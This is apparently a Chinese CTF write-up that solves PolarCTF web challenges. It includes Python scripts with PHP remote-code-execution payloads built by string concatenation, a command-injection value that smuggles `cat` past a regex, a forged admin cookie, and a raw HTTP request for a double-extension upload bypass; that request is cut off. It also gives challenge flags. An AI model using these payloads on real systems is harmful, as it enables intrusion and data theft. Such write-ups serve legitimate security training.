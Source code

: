 # 签到喵
	- 一眼关注微信公众号，脚本里的base64提示`请发送“宝宝想要flag”`，关注PolarCTF发送即可
- # cool
	- 简单RCE，用动态函数绕过拿flag
		- ```python
		  url = "http://5aac0d2c-030c-4b28-a345-ad698f526deb.www.polarctf.com:8090/"
		  r = requests.post(
		      url,
		      params = {
		          "a": "('syst'.'em')('cat *');",
		      },
		  )
		  print(r.text)
		  ```
	- `flag{4512esfgsdIirhgui82545er4g5e5rg4er1}`
- # cookie欺骗
	- 改cookie即可：`Cookie: user=admin`
- # 干正则
	- 简单命令执行，引号绕过正则，使用parse_str覆盖变量a绕过if检测
	- ```python
	  url = "http://ebaf1b5f-34bf-454d-885f-de1c6b9ab541.www.polarctf.com:8090/"
	  
	  id_str = "a[]=" + "www.polarctf.com"
	  cmd = " -h; cat fl''ag.php"
	  r = requests.get(url, params = {
	      "id": id_str,
	      "cmd": cmd
	  })
	  print(r.text)
	  ```
- # upload
	- 双写绕过文件上传，F12有提示源码
	- ```http
	  POST / HTTP/1.1
	  Host: 8cb63036-39d0-4dc5-8c2c-2e684c3fc417.www.polarctf.com:8090
	  Content-Length: 318
	  Cache-Control: max-age=0
	  Upgrade-Insecure-Requests: 1
	  Origin: http://8cb63036-39d0-4dc5-8c2c-2e684c3fc417.www.polarctf.com:8090
	  Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoXE8wHLlno2SYrJ8
	  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
	  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	  Referer: http://8cb63036-39d0-4dc5-8c2c-2e684c3fc417.www.polarctf.com:8090/?action=show_code
	  Accept-Encoding: gzip, deflate, br
	  Accept-Language: en-US,en;q=0.9
	  Connection: close
	  
	  ------WebKitFormBoundaryoXE8wHLlno2SYrJ8
	  Content-Disposition: form-data; name="upload_file"; filename="a.phasap"
	  Content-Type: application/x-php
	  